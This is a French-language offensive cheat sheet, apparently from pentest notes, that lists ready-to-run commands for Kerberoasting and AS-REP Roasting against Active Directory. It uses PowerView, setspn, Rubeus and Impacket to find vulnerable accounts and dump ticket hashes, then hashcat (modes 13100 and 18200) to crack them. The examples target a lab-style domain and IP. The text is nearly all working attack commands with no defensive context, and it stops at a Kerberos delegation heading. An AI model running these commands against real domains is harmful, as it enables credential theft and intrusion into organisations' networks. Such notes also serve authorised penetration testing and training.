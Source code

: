 ### Kerberoasting

#### Identification des cibles

```powershell
# Avec PowerView
Get-DomainUser -SPN | select samaccountname,serviceprincipalname

# Avec setspn.exe (natif)
setspn -F -Q */* | findstr /i "cn="
```

#### Extraction des tickets TGS

```powershell
# Avec Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.txt

# Avec PowerView
Invoke-Kerberoast -OutputFormat hashcat | Select-Object -ExpandProperty hash | Out-File -Encoding ASCII hashes.txt
```
#### Depuis Linux

```bash
# Avec Impacket
GetUserSPNs.py -request -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/username:password

# Craquage avec Hashcat (mode 13100)
hashcat -m 13100 hashes.txt wordlist.txt --force
```

### AS-REP Roasting
#### Identification des cibles
```powershell
# Avec PowerView
Get-DomainUser -PreauthNotRequired | select samaccountname

# En LDAP
Get-ADUser -Filter 'useraccountcontrol -band 4194304' -Properties useraccountcontrol | select name
```
#### Extraction des tickets AS-REP
```powershell
# Avec Rubeus pour tous les utilisateurs vulnérables
.\Rubeus.exe asreproast /format:hashcat /outfile:asrep.txt

# Pour un utilisateur spécifique
.\Rubeus.exe asreproast /user:target /format:hashcat /outfile:asrep.txt
```
### Depuis Linux
```bash
# Avec Impacket
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -request -format hashcat

# Craquage avec Hashcat (mode 18200)
hashcat -m 18200 asrep.txt wordlist.txt --force
```
### Délégation Kerberos
